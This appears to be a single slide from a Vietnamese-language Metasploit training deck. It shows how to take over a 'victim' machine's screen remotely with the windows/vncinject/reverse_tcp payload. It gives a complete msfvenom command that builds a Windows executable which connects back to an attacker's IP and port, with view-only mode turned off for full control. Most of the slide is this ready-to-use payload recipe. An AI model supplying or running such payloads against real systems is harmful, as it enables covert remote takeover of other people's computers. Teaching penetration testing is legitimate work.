

#
III. Sử dụng Metasploit Framework
 Điều khiển màn hình máy victim từ xa:
Cách 2: Sử dụng payload windows/vncinject/reverse_tcp
Set ViewOnly False
msfvenom -p windows/vncinject/reverse_tcp lhost=[ip] lport=[cổng] viewonly=false -f exe -o [tên_file.exe]

29